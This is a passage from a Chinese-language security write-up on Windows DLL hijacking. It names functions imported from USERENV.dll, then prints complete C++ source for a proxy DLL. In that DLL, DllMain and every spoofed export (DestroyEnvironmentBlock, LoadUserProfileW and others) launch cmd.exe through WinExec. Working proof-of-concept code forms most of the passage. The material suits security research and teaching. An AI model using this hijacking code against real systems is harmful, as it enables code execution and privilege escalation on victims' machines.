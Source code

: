 [![](https://p0.ssl.qhimg.com/t011a22168d3a0b8452.png)](https://p0.ssl.qhimg.com/t011a22168d3a0b8452.png)

通过查看，我们发现从`USERENV.dll`导入了几个函数，例如`wit`、`DestroyEnvironmentBlock`、`LoadUserProfileW`、`UnloadUserProfile`、`LoadUserProfileA`和`CreateEnvironmentBlock`。

随后，我们可以创建一个导出这些函数的DLL，但实际上会调用我们想要执行的命令。受到DLL劫持这篇文章的启发，我的代码实现如下：

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
`{`
    switch (ul_reason_for_call)
    `{`
    case DLL_PROCESS_ATTACH:
        WinExec("cmd.exe", SW_NORMAL);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    `}`
    return TRUE;
`}`

extern "C" __declspec(dllexport) void DestroyEnvironmentBlock()
`{`
    WinExec("cmd.exe", SW_NORMAL);
`}`

extern "C" __declspec(dllexport) void LoadUserProfileW()
`{`
    WinExec("cmd.exe", SW_NORMAL);
`}`

extern "C" __declspec(dllexport) void UnloadUserProfile()
`{`
    WinExec("cmd.exe", SW_NORMAL);
`}`

extern "C" __declspec(dllexport) void LoadUserProfileA()
`{`
    WinExec("cmd.exe", SW_NORMAL);
`}`

extern "C" __declspec(dllexport) void CreateEnvironmentBlock()
`{`
    WinExec("cmd.exe", SW_NORMAL);
`}`
```
